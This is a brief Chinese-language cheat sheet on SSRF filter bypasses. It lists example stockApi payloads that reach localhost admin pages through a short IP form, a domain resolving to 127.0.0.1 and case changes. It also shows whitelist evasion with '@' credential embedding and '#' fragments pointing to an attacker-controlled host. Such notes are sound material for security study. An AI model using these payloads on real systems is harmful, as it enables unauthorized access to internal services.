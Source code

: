 



### 短地址绕过

```
stockApi=http://127.1/admin
```



### 域名解析绕过

```
stockApi=http://spoofed.burpcollaborator.net/admin
```

注：域名 spoofed.burpcollaborator.net 解析到 127.0.0.1。



### 大小写绕过

```
stockApi=http://LocalHost/Admin
```



### 白名单

当应用程序采用白名单校验机制时，其输入过滤器通常要求输入内容必须匹配预设许可值列表。这类过滤器可能检查输入值的起始部分或包含关系。通过利用URL解析的差异性，攻击者可能绕过此类防护机制。



### 凭证嵌入

URL 规范包含若干易被忽略的解析特性，特别是当应用程序使用临时方案实现 URL 解析和验证时：

**凭证嵌入**：可在主机名前使用`@`符号注入访问凭证。例如：

```
https://expected-host:fakepassword@evil-host

协议://[认证信息]@[实际访问主机]
 ↑      ↑              ↑
https   expected-host  evil-host
        (白名单域名)    (攻击者控制的主机)
```



### 片段标识

**片段标识**：利用`#`符号构造URL片段。例如：

```
https://evil-host#expected-host

协议://[实际访问主机]#[URL片段]
 ↑       ↑          ↑
https    evil-host  expected-host
         (攻击域名)   (白名单域名)
```
